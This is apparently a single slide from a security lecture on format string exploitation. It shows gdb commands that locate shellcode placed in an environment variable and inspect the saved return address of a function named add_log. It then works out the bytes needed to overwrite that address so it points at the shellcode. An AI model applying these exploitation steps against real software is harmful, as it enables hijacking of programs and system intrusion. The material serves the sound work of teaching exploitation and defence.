

# Format String Exploitation
The shellcode is put in the environment
(gdb) find *environ, +800, 'E', 'G', 'G', '='
0xffffd374
1 pattern found.
The return address of the function add_log is overwritten using consecutive writes
(gdb) x/2x $ebp
0xffffceb8:	0xffffcee8	0x080485bb

0x080485bb must become 0xffffd374 + 4
Therefore, we need to write the bytes:
0x78 0xd3 0xff 0xff